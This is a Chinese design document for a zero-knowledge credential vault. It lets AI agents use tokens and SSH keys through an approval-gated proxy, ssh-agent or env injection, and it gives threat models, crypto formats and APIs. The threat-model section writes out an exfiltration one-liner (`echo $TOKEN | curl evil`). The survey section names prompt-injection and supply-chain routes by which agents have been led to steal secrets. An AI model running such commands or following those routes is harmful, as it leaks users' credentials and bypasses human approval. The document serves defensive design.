

# 密钥库（设计稿）

> 状态：第 0–2 期在做（分支 vault）；个人库为默认、先不接 1Password/Bitwarden、agent 写入要批准（2026-10-17 用户定）。chat EMBER/1792192607.305000（2026-10-17：「能做一个基于 still.fail 基础设施的 1password 吗」）。

## 要解决的事

现在 agent 用凭据的方式：

- Slack token 写在 station 的 `config.json` 里，agent 一 `cat` 就进了上下文（全局记忆里专门记过别 cat 它）。
- `gh`、npm、云厂商的 key 散在各台机器的家目录里，谁用了、什么时候用的，没有记录。
- API key 类 profile 靠「分享」（`docs/station-share.md` 的 `key`）在 station 之间明文复制，每台都存一份。
- 发出去的快照靠 `station/src/publish/redact.ts` 按长相猜哪些是密钥，猜不到的就漏了。

目标是一个**零知识**的密钥库：明文只在人的 app 里出现，station 和 cloud 只存密文。先做 agent 用密钥（申请 → 人在手机上批准 → 只交给这一次使用），再做人用的密码库和自动填充。

## 结论先说

| | 做法 |
|---|---|
| 谁信谁 | 只信 workspace 锁（`docs/workspace-lock.md`）里签过的 app 设备。没开锁的 workspace 不能用密钥库：不开锁，cloud 就能往名单里塞自己的设备，让别人把密钥包给它 |
| 密文放哪 | station 的 `stillfail.db`，走现有的同步进各设备的 core 缓存。cloud 不存 |
| 明文在哪 | 只在 app（桌面、安卓）解锁后的内存里。网页版能看到条目名，解不开内容（页面代码是 cloud 发的，和锁的规定一样） |
| agent 怎么用 | 默认根本拿不到原值：HTTP 的密钥由本机代理按域名填进请求，SSH 钥匙只给 ssh-agent 签名。实在要原值才走「注入单个进程的环境变量」，这种情况输出按原值逐字遮掉 |
| 先做什么 | 第一期只做 agent 用的密钥（token、API key、SSH 钥匙），人用的密码和自动填充放到后面 |

## 防谁

| 对手 | 能做到的 | 做不到的 |
|---|---|---|
| cloud 被攻破 | 扣着不转发，让人用不了 | 读密文、加自己的设备（锁不让）、伪造批准 |
| 中继 | 看到流量大小 | 读内容（iroh 端到端） |
| station 被攻破，或 agent 被提示注入 | 发起申请（人会看到申请理由、命令和目标域名）；用已批准、还没过期的授权 | 读库里任何一条的明文；把代理模式的密钥拿出来；用没批准的条目 |
| 丢了手机 | 拿到密文和被系统钥匙串锁着的设备私钥 | 不过生物识别就解不开；在锁里删掉这台设备后，它拿不到之后加进来的条目，原有的库要换钥匙（见「移除」） |
| 手机系统本身被攻破 | 全部 | — 不防（1Password 也不防） |

要说清楚的一点：agent 和 station 是**同一个系统用户**。所以「注入环境变量」只防不小心泄漏（打印、写进 transcript、提交进仓库），防不住存心要拿的 agent：它能在命令里 `echo $TOKEN | curl evil`。真正防得住的是代理和 ssh-agent 两种方式，所以它们是默认。要彻底隔开，得让 agent 换一个系统用户运行，这是另一件事，不在这里做。

## 钥匙

```
设备箱钥匙（X25519，每台 app 设备一把，私钥在系统钥匙串里，要生物识别才能用）
  └─ 包着 → 库钥匙（每个库一把，XChaCha20-Poly1305 的 32 字节）
               └─ 加密 → 每个条目
恢复码（打印出来的 24 个词）
  └─ 包着 → 每个库钥匙（一份）
```

- **设备箱钥匙**：不改锁。每台 app 设备给自己的箱钥匙出一张「箱钥匙证书」，用锁里自己的 `sign_key` 签名，跟着库一起存（格式见「实现约定」）。验证的人拿锁里这台设备的 `sign_key` 验，所以 station 和 cloud 塞不进自己的箱钥匙。网页版设备没有 `sign_key`，也就没有箱钥匙。
- **存放**：安卓放 Android Keystore（有 StrongBox 就用），要求生物识别或屏幕锁解锁；macOS 放钥匙串，用 Touch ID 解锁；Windows/Linux 用 Electron `safeStorage`。现在锁的签名钥匙（`lock-signer`）是 app 数据目录里的普通文件，`workspace-lock.md` 的「还没做」里已经记着要挪进钥匙串，这件事和箱钥匙一起做。
- **不用主密码**：1Password 用「主密码 + Secret Key」，因为它的新设备要能自己登录、不依赖旧设备。still.fail 加新设备本来就要旧设备核对短码（`lock.confirm`），确认的同时把库钥匙包给新设备的箱钥匙就行，不用多记一个密码。所有设备都丢了，就用恢复码。
- **passkey**：passkey 有 PRF 扩展时，可以多包一份库钥匙给 PRF 派生出的钥匙，用来在新设备上恢复。先不做，等锁的 passkey 签名做完再加。
- **算法**：只用 Node 自带 `node:crypto` 也有的几样（station 不加依赖，core 用 `@noble/*`）：X25519、HKDF-SHA256、ChaCha20-Poly1305（96 位随机 nonce）、Ed25519/P-256 验签。附加数据里写清 `ws/vault/item/version/epoch`，一条密文挪不到别处冒充。

## 库和条目

- **库（vault）**：`{id, owner, name, members[], keys[], recovery, epoch}`。`members` 是能用这个库的成员（锁里的 `sub`）；`keys` 给这些成员的每台 app 设备各包一份。每次加人、删人、删设备，`epoch` 加一。
- **库元数据也要签**：每一版都由库 owner 的一台锁里设备签名，station 不认没签名的，客户端也不信，否则 station 被攻破后就能把自己塞进 `members`。owner 定了不变，所以验证不用翻历史。这一期只有 owner 管成员；成员自己加新设备，由 owner 的任一台设备在确认锁的同时补签。
- **条目（item）**：`{id, vault, version, epoch, ct, listing?}`。密文里是 `{kind, name, fields, domains, notes}`。`kind` 先只有 `token`、`ssh_key`、`login`。名字在密文里，station 不知道存的是什么；只有打开「给 agent 用」的条目带一个明文的 `listing`（名字、允许的方式和域名），agent 要靠它知道有什么能申请。`listing` 由写入的设备签名，station 改不了。
- **移除**：删人或删设备之后，生成新的库钥匙，`epoch` 加一。之后新写的条目都用新钥匙加密；旧条目下次被打开时由那台设备顺手重新加密（被删的人以前看过的值，本来就该去各服务那边换掉，界面上会提示）。

## 存储和同步

- **station**：新表 `vaults`、`vault_items`（`CREATE TABLE IF NOT EXISTS`），只存密文和签名。一个库挂在一台 station 上（host），别的 station 存一份副本，做法照搬「分享」：host 是正本，副本只读，host 离线时照样能读。
- **core**：两个新 topic，`vaults` 和 `vaultItems`，按 id 增量同步，和其他数据一样存进 core 的 db。解锁后的明文只放在内存里，app 退到后台 N 分钟（默认 5）就清掉。
- **冲突**：条目按 `version` 写入，带上 `base`；`base` 对不上就拒绝，客户端把两份都留下，标成「有冲突」。
- **cloud**：什么都不加。

## agent 用密钥

### 流程



- **keeper**：station 里一个单独的进程，只做三件事：管授权、做代理、做 ssh-agent。值只在它的内存里，不写盘，不进日志，也不交给 station 主进程（主进程连着网页和远程任务，暴露面大）。macOS 上同一用户的进程默认不能读别的进程内存（要调试权限），Linux 上要开 `PR_SET_DUMPABLE=0`。
- **工具**：`secret_list`（agent 能看到的条目名和允许的方式，不含值）和 `secret_use`。申请卡片用现有的卡片和奏列表，申请发给条目所在库的成员；`card.assignee` 是库的 owner，或者是这个 chat 的发起人，只要他是库成员。
- **批准的范围**：「只这一次」「这个 chat 一小时内」「这个 chat 里同一个命令以后都行」三档，默认第一档。上限由条目里的 `agent` 设置决定。

### 三种用法

| 方式 | 怎么做 | agent 看得到原值吗 | 适合 |
|---|---|---|---|
| 代理（默认） | `stillfail-secret run <授权号> --env GH_TOKEN -- gh pr list`：只给这一个命令设 `HTTPS_PROXY`（keeper 的本机代理，带这次授权的代理口令）和信任 keeper CA 的变量（`NODE_EXTRA_CA_CERTS`、`SSL_CERT_FILE`、`REQUESTS_CA_BUNDLE`、`GIT_SSL_CAINFO`、`CURL_CA_BUNDLE`），`GH_TOKEN` 的值是占位符 `stillfail-secret:<授权号>`。请求发往条目允许的域名时，代理把请求头里的占位符换成原值；占位符发往别的域名就拒绝。不在 agent 的全局环境里设代理：keeper 出问题不能连累 agent 自己的 API 请求 | 看不到 | API key、Bearer token、GitHub token（`gh` 走 HTTPS） |
| ssh-agent | `stillfail-secret run <授权号> -- git push`：给这个命令一个 keeper 的 `SSH_AUTH_SOCK`，只列出这次授权的那把钥匙，每次签名检查授权 | 看不到，私钥不离开 keeper | git over ssh、登其他机器 |
| 环境变量 | `stillfail-secret run <授权号> -- <命令>`：keeper 用这个值作为环境变量启动这一个进程，stdout/stderr 经过 keeper 输出，原值和它的 base64、URL 编码写法逐字换成 `[已隐藏]` | 子进程看得到；agent 只能从输出里拿到，而输出已经遮掉了 | 只认环境变量、不走 HTTP 的工具（数据库客户端之类） |

- 环境变量方式的输出遮挡是按**确切的值**遮，比 `redact.ts` 按长相猜靠谱得多。但它防不住命令自己把值发出去，所以界面上把这一档标成「agent 能拿到」，条目默认不开这一档。
- 代理只拦 HTTPS，并且只换占位符：agent 发出的其他请求原样通过，不影响它干别的事。

### 记录

每次申请、批准、拒绝、使用（时间、chat、方式、目标域名或命令，不含值）都写进 station 的 `vault_audit`，并作为一条系统消息显示在那个 chat 里。在库的页面能按条目查。记录按库同步给成员的设备（第一期只存在 station 上，同步下来放到界面那一步做）。

## 人用的密码库（第二期以后）

- app 里加一个「密钥」页：库、条目、搜索、复制（30 秒后清剪贴板）、生成密码、TOTP。网页版只列名字。
- 安卓：实现 `AutofillService` 填密码，再实现 Credential Manager 的 `CredentialProviderService`，把 passkey 也存进来。
- 桌面浏览器：浏览器扩展通过 native messaging 和桌面 app 通信，解密在 app 里做。
- 导入：先支持 1Password（`.1pux`）、Bitwarden（JSON）、浏览器（CSV）。
- 不兼容 Bitwarden 的协议和官方客户端，原因见下一节。

## 调研（2026-10-17）

### 兼容 Bitwarden：不做

不兼容 Bitwarden 协议，用自己的客户端和协议。加密的分层（设备钥匙包库钥匙、库钥匙加密条目）和 Bitwarden、1Password 的思路一样，但不追它的线上格式：

- 官方客户端只保证能连 Bitwarden 自己的服务器。2026.7.0 版客户端连 Vaultwarden 1.36 时库显示为空，要升级到 1.37 才好。Bitwarden 把这个问题关成了「不打算修」（[clients#22013](https://github.com/bitwarden/clients/issues/22013)、[vaultwarden#7529](https://github.com/dani-garcia/vaultwarden/discussions/7529)）。客户端会自动更新，兼容的服务器只能一直追。它的加密格式也还在变（v2 账户加密、COSE、签名公钥）。
- 官方客户端只能连 HTTPS 地址：安卓版禁止明文连接，CLI 从 2025.11 起拒绝 http 地址。我们的 station 只能经 iroh 连到，要兼容就得在手机上跑本地 TLS 代理或者做 VPN，体验差，还会被系统的省电机制杀掉。
- fork 它的客户端要整个以 GPLv3 开源，要去掉 `/bitwarden_license` 下的代码、换掉品牌，还要一直合并上游的改动，而且照样解决不了 iroh 连接的问题。
- 自己做自动填充的工作量可以接受：Chrome 135（2025-04）起，安卓上的 Chrome 直接支持第三方 AutofillService，一个标准的 AutofillService 就能同时覆盖浏览器和其他 app；passkey 用 Credential Manager 的 `CredentialProviderService`（Android 14+）。浏览器扩展通过 native messaging 连桌面 app，可以绕开 HTTPS 的问题，基础版几周到两个月能做出来。

### 别人给 agent 的做法

| 产品 | 做法 | 在哪批准 |
|---|---|---|
| 1Password Environments、`op run`、Claude Code 插件 | 挂载 .env，或者 `op run` 注入子进程并遮掉输出；MCP 只给变量名 | 桌面 app |
| 1Password × NVIDIA OpenShell | agent 只拿到占位符，网关对已批准的域名在一段时间内换成真值 | 桌面 app |
| 1Password Agentic Autofill、1Password for Claude | 只管浏览器登录：凭据直接填进网页，模型只知道「登录了」 | 桌面 app |
| 1Password SSH agent | 按 app、终端会话或单次请求批准 | 桌面 app |
| Bitwarden Agent Access（2026-03，alpha） | Noise 隧道加配对令牌，`aac run` 注入环境变量；OneCLI 在它上面做了代理注入 | CLI 那一端；有没有手机界面、记录、过期，文档里没写 |
| Infisical Agent Proxy、Aembit、Cloak | HTTPS 中间人代理换凭据，带权限和记录 | 管理后台的规则 |
| Keycard、Arcade、Composio | 按 agent 和任务发短期凭据，或者在自己的运行环境里调用、只把结果给模型 | OAuth 授权 |
| Anthropic 安全部署指南 | 建议在沙箱外跑一个注入凭据的代理，agent 看不到凭据 | — |

- 已知的泄漏方式：Claude Code 自己读 `.env`（Knostic，2025-12）；Nx 供应链投毒驱使本机的 claude、gemini CLI 去偷密钥（2025-08）；提示注入让 agent 把环境变量 base64 后发到外面。所以默认用代理，环境变量方式加上短期、遮输出和域名白名单；这一点和 1Password、Anthropic 的做法一致。
- 我们和它们不一样的地方：**在手机上批准**（它们都在桌面、CLI 或者 Slack/Jira 的审批流里批准），**密钥只封给发起申请的这一次使用**，代理和环境变量两种方式都有，批准、过期、记录在同一个流程里，在 chat 里就能看到。
- 没查实的：1Password 有没有在手机上批准 agent 请求的功能（没找到）；Bitwarden Agent Access 的批准界面具体长什么样。

## 实现约定

各部分并行开发，以这一节为准；改这里要同时改三处实现。

### 编码

- 二进制一律 base64url（不带 `=`），公钥 `x25519:<hex>`，签名钥匙沿用锁的 `ed25519:<hex>`、`p256:<b64url>`。
- 要签名、要做附加数据的 JSON 都用锁的 `canonical`（键排序、无空白、只有整数）。
- 签名：`sig = {key, alg, sig}`，和锁的 `Sig` 一样（这一期不收 passkey 签名），签的字节是 `"<标签>\0" + sha256(canonical(去掉 sig 的对象))`。标签：箱钥匙证书 `stillfail-vault-box/1`，库 `stillfail-vault/1`，条目 `stillfail-vault-item/1`，授权 `stillfail-vault-grant/1`，拒绝 `stillfail-vault-deny/1`。

### 封装（seal）

`seal(收件人 x25519 公钥, 明文, 上下文)`：生成临时 X25519 钥匙对，`shared = X25519(临时私钥, 收件人公钥)`，`key = HKDF-SHA256(ikm=shared, salt=临时公钥‖收件人公钥, info="stillfail-vault-seal/1", 32)`，ChaCha20-Poly1305，nonce 12 个 0（每个 key 只用一次），附加数据 = 上下文字符串。结果 `临时公钥(32)‖密文‖tag(16)` 的 base64url。

### 箱钥匙证书

```
BoxCert = {v: 1, ws, device: <锁里设备的基础公钥 hex>, box: "x25519:<hex>", at, sig}   // sig.key 必须是锁里这台设备的 sign_key
```

### 库

```
Vault = {v: 1, ws, id: "v_<ULID>", seq, owner: <sub>, name, members: [<sub>],
         epoch, keys: [{cert: BoxCert, wrapped: seal(cert.box, 库钥匙(32), "stillfail-vault-key/1\0<ws>\0<id>\0<epoch>")}],
         recovery?: seal(恢复公钥, 库钥匙, 同上上下文), at, sig}
```

- `sig.key` 是锁里 `owner` 的某台 app 设备的 `sign_key`。`owner` 不能变；`seq` 每版加一，station 只收 `seq` 恰好大一的（第一次是 0）。
- `keys` 里每张证书都要验：签名对、设备在锁里、设备属于 `members` 里的人。
- 恢复码：24 个词（BIP-39 英文词表）= 32 字节熵，`恢复私钥 = HKDF-SHA256(熵, info="stillfail-vault-recovery/1")` 当 X25519 私钥用。
- 换 `epoch`（删人、删设备）时重新生成库钥匙，`keys` 全部重包。

### 条目

```
Item = {v: 1, ws, vault, id: "i_<ULID>", version, epoch, deleted?: true,
        ct: <base64url(nonce(12)‖ChaCha20-Poly1305(库钥匙, 明文 JSON, 附加数据))>,
        listing?: {name, kind, modes: ["proxy"|"ssh"|"env"], hosts: [<域名>], env?: <建议的变量名>},
        at, sig}
附加数据 = "stillfail-vault-item/1\0<ws>\0<vault>\0<id>\0<version>\0<epoch>"
明文 = {kind: "token"|"ssh_key"|"login", name, fields: {…}, domains: [], notes}
       token: {value}; ssh_key: {private_key(OpenSSH PEM), public_key}; login: {username, password, totp?}
```

- `sig` 是写入设备的 `sign_key`（锁里的、属于库 `members`）。station 只收 `version` 恰好大一的；删除是写一版 `deleted: true` 的空密文。
- 没有 `listing` 的条目 agent 看不到。`hosts` 支持 `*.example.com`。

### 申请和授权

```
Request（station 生成，存 vault_requests）= {id: "r_<ULID>", ws, vault, item, session, chat, mode, reason,
         command?, hosts?, box: "x25519:<hex>"(keeper 这次的临时公钥), at, status: "pending"|"granted"|"denied"|"expired"}
Grant（批准的设备生成）= {v: 1, ws, request, vault, item, mode, hosts, scope: "once"|"hour"|"chat",
         exp(unix 秒), secret: seal(request.box, 明文 JSON, "stillfail-vault-grant/1\0<ws>\0<request>"), at, sig}
Deny = {v: 1, ws, request, at, sig}
```

- 批准的人必须是库的成员，`sig.key` 是他锁里设备的 `sign_key`。`scope`：`once` 只能用一次（一次 `stillfail-secret run`）、`hour` 一小时内、`chat` 这个 chat 里直到 `exp`（最长 24 小时）。
- 授权号就是 `request` 的 id。只有发起申请的那个 session 能用（凭 `STILLFAIL_MCP_TOKEN`）。

### station 的接口

core → station（走现有的 admin/工作区路由，按锁认出设备和成员）：

| 调用 | 做什么 |
|---|---|
| `GET vault/vaults`、`GET vault/items?vault=` | 列出这个人能看到的库和条目（全量密文；core 按 id 增量存） |
| `PUT vault/vaults`、`PUT vault/items` | 写一版（验签、验 seq/version） |
| `GET vault/requests` | 这个人能批准的、还在等的申请 |
| `POST vault/grants`、`POST vault/denials` | 批准、拒绝 |

agent → station（MCP 工具，在 `stillfail` 服务器里）：

| 工具 | 做什么 |
|---|---|
| `secret_list` | 有 `listing` 的条目：id、名字、方式、域名，加上这个 session 手上还能用的授权 |
| `secret_use {item, mode, reason, command?, hosts?}` | 建申请，往这个 chat 发一张申请卡片（库 owner 是 assignee），推送。等最多 2 分钟：批准了回授权号和用法，没批准回「等批准」，之后批准或拒绝时往 session 里发一条消息 |

`stillfail-secret run <授权号> [--env NAME] -- <命令…>`：keeper 的命令行，连 keeper 的 unix socket，凭 `STILLFAIL_MCP_TOKEN` 证明是哪个 session。

### keeper

- station 起的子进程（`station/src/vault/keeper.ts`），station 退出它也退出；和 station 之间走一个只有 station 知道口令的 unix socket。station 把 Grant 原样交给 keeper，keeper 自己验签、用这次申请的临时私钥（只在 keeper 内存里）解封。
- 代理：`127.0.0.1` 上的 HTTP 代理，`CONNECT` 到授权允许的域名时做中间人（keeper 的 CA，私钥存 station 数据目录 `vault/ca.key`，0600），只在请求头里换占位符；其他 `CONNECT` 原样转发。代理口令（`Proxy-Authorization`）对应授权，没有口令的请求只转发不替换。
- ssh-agent：每次 `run` 开一个临时 socket，只认这次授权的钥匙，命令结束就关。
- 环境变量方式：keeper 自己起子进程，stdout/stderr 经 keeper 输出，原值、base64、base64url、URL 编码的写法都换成 `[已隐藏]`（跨块边界也要遮）。

### 设备上的钥匙

- Host 加 `secureGet/secureSet/secureDelete(key, {user: boolean})`：安卓用 Keystore 包一层（`user: true` 时要求生物识别或屏幕锁，`setUserAuthenticationRequired`），macOS 钥匙串，Windows/Linux 用 Electron `safeStorage`。网页 host 没有这三个方法。
- 存的东西：`vault-box`（X25519 私钥，`user: true`）、`lock-signer`（从现在的普通文件挪进来，`user: false`，老文件读到后迁移并删除）。
- 批准一次申请、打开一个条目都要过一次 `user: true` 的读；解开的库钥匙在内存里缓存 5 分钟。

## 分期

| 期 | 内容 | 前提 |
|---|---|---|
| 0 | 锁的签名钥匙和箱钥匙放进系统钥匙串；箱钥匙证书；恢复码 | 锁已上线 |
| 1 | 库和条目的存储、同步、签名的成员变化；app 里能建库、加 token 和 SSH 钥匙 | 0 |
| 2 | keeper、`secret_list`/`secret_use`、申请卡片、代理、ssh-agent、记录 | 1 |
| 3 | 环境变量方式；把 station 自己的 Slack token、API key profile 挪进库里（老的继续能用） | 2 |
| 4 | 人用的密码页、安卓自动填充和 passkey、导入 | 1 |
| 5 | 浏览器扩展 | 4 |

## 兼容

- 锁不改。旧客户端没有箱钥匙证书，就不能加入库，库页面提示升级。
- 旧 station 不认识 `vault.*` 调用，回 404，库页面把它列成「这台 station 不能放库」。
- 新表都是 `IF NOT EXISTS`；core 的新 topic 和视图同包发布。

## 还没定

- 一个 workspace 默认建一个「共享」库，还是每人一个「个人」库加按需建共享库（1Password 的做法是后者）。
- 代理模式的 CA：每个会话一个，还是每台 station 一个。每个会话一个更干净，但要在 agent 启动时就生成，并写进它的环境变量。
- 已经在用 1Password、Bitwarden 的人：要不要把它们当成「来源」接进来，也就是 agent 的申请由手机上的 still.fail app 批准，值从对方的库里取。好处是不用搬家，坏处是要做对方的 SDK，零知识也得由对方保证。
- agent 能不能自己写入库（比如注册了一个服务，把拿到的 token 存回来）。写入也要人批准吗？
